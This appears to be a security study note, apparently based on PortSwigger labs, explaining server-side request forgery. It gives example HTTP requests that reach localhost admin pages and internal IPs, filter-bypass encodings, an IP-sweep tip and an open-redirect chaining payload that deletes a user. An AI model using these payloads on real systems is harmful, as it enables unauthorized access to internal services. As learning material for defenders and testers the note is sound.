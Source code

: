 Server side request forgery is a web application vulnerability that allows the server side aplication to make  HTTP requests to an arbitrary domain of the attacker's choosing.

#### SSRF attacks against the server itself

In an SSRF attack against the server itself, the attacker induces the application to make an HTTP request back to the server that is hosting the application, via its loopback network interface.
This will typically involve supplying a URL with a hostname like 127.0.0.1 (a reserved IP address that points to the loopback adapter) or localhost.
for example:
````
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://stock.weliketoshop.net:8080/product/stock/check%3FproductId%3D6%26storeId%3D1
````
The above shopping application checks its stock status by requesting various back-end REST APIs so the request goes into the "stockApi" variable through frontend HTTP requests and 
by modiifng the "stockApi" variable into "http://localhost/admin"
````
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://localhost/admin
````
Now if u can delete a user by "http://localhost/admin/delete?username=user1"

#### SSRF attacks against other back-end systems
Another type of trust relationship that often arises with server-side request forgery is where the application server is able to interact with other back-end systems that are not directly reachable by users. These systems often have non-routable private IP addresses. Since the back-end systems are normally protected by the network topology, they often have a weaker security posture.
````
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://IP/admin
**To find the correct IP octate try passing it to intruder and then add the payload to the required octate(192.168.0.1 here .1) change the payload type to Numbers 1-255.**
````
#### SSRF with blacklist-based input filters
Some applications block input containing hostnames like 127.0.0.1 and localhost, or sensitive URLs like /admin. In this situation, you can often circumvent the filter using various techniques:

Using an alternative IP representation of 127.0.0.1, such as 2130706433, 017700000001, or 127.1.
Registering your own domain name that resolves to 127.0.0.1. You can use spoofed.burpcollaborator.net for this purpose.
Obfuscating blocked strings using URL encoding or case variation.
example:-
Example from the line13 try changing the stockapi to http://127.1/admin and if that didnt work try using the Double-URL encoding for a in admin. 

#### SSRF with whitelist-based input filters
````
1.Visit a product, click "Check stock", intercept the request in Burp Suite, and send it to Burp Repeater.

2.Change the URL in the stockApi parameter to http://127.0.0.1/ and observe that the application is parsing the URL, 
extracting the hostname, and validating it against a whitelist.

3.Change the URL to http://username@stock.weliketoshop.net/ and observe that this is accepted, 
indicating that the URL parser supports embedded credentials.

4.Append a # to the username and observe that the URL is now rejected.

5.Double-URL encode the # to %2523 and observe the extremely suspicious "Internal Server Error" response, 
indicating that the server may have attempted to connect to "username".

6.Change the URL to http://localhost:80%2523@stock.weliketoshop.net/admin/delete?username=carlos 
to access the admin interface and delete the target user.
````

#### Bypassing SSRF filters via open redirection
It is sometimes possible to circumvent any kind of filter-based defenses by exploiting an open redirection vulnerability.

In the preceding SSRF example, suppose the user-submitted URL is strictly validated to prevent malicious exploitation of the SSRF behavior. However, the application whose URLs are allowed contains an open redirection vulnerability. Provided the API used to make the back-end HTTP request supports redirections, you can construct a URL that satisfies the filter and results in a redirected request to the desired back-end target.

For example, suppose the application contains an open redirection vulnerability in which the following URL:
````
/product/nextProduct?currentProductId=6&path=http://evil-user.net
````
returns a redirection to:

http://evil-user.net

You can leverage the open redirection vulnerability to bypass the URL filter, and exploit the SSRF vulnerability as follows:
````
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://weliketoshop.net/product/nextProduct?currentProductId=6&path=http://192.168.0.68/admin
````
This SSRF exploit works because the application first validates that the supplied stockAPI URL is on an allowed domain, which it is. The application then requests the supplied URL, which triggers the open redirection. It follows the redirection, and makes a request to the internal URL of the attacker's choosing.

### References:-
````
https://portswigger.net/web-security/ssrf
https://www.acunetix.com/blog/articles/server-side-request-forgery-vulnerability/
https://owasp.org/www-community/attacks/Server_Side_Request_Forgery
````





